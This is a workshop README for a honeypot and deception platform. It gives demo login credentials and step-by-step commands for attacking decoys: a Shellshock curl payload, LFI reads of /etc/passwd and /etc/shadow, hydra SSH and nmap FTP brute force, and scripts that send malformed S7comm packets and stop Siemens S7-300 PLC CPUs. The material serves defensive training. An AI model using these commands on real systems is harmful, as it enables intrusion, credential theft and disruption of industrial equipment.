 # Welcome to the Labyrinth Deception Platform workshop
All you may need for the workshop is available in this repository.
## Getting access
Our lab setup looks this way:

Please navigate to our demo stand:
1. **Credentials to the AdminVM**

You may use any web browser of your choice.
```
URL: https://demo.labyrinth.tech/
Username: user
Password: 2~8uH'14leki
```
> [!NOTE]
> Feel free to create your own users here by going to the Settings->Users.

2. **Credentials to the attacking host**

From this host you will perform your attacks. Please use SSH and following credentials:
```
Host: warrior.labyrinth.tech
Username: user
Password: K4H*91kYg/j*
```

## Terminology that will be used today
Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own terminology that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **Admin VM (Management Console)**  = main module that controls the system.
6. **Worker VM** = node on which Points are running.

## Commands transcript
In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
Several tools can be used. For example, [nmap](https://nmap.org/):
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: deception using breadcrumbs
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: web deception using UWP
UWP stands for Universal Web Point. It is a decoy type, developed by the Labyrinth Security Solutions team, that allows to emulate anything that has a web interface just in seconds.

In this case we will be trying to exploit [Shellshock](https://blog.cloudflare.com/inside-shellshock).
```
curl -k -H "User-Agent: () { :; }; /bin/bash cat /etc/passwd" http://<UWP IP>/
```
#### Case 4: interaction with MQTT broker
Subscribe to all topics:
```
mosquitto_sub -h <MQTT broker IP> -t "#" [-u <username> -P <password>]
```
Publish a topic:
```
mosquitto_pub -h <Point IP> -t <topic name> [-u <username> -P <password>] -m 'My Message'
```

#### Case 5: S7comm malformed PDU
For this case there is a [script](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) that is also available on your VM:
```
cd scripts
```
Simply run it: 
```
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
More about S7comm packet structure: [The Siemens S7 Communication - Part 1 General Structure](http://gmiru.com/article/s7comm/) and [The Siemens S7 Communication - Part 2 Job Requests and Ack Data](http://gmiru.com/article/s7comm-part2/)

#### [Advanced] Case 6: gathering info from web server

1. Find web server
```
sudo nmap -sS -sC -p80,443 <Honeynet subnet> -vvv 
```
Also search for an SSH host: 
```
sudo nmap -sS -sC -p22 <Honeynet subnet> -vvv 
```
2. Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```

Bonus step: search for additional web path:
```
dirsearch --wordlists=/home/student/wordlists/directories.txt -u https://<Point IP>/ 
```

Reference: [dirsearch](https://github.com/maurosoria/dirsearch)

3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
Bonus step: reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 7: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP

Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
file <file>
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP address>
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py <S7-300 IP address>
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 
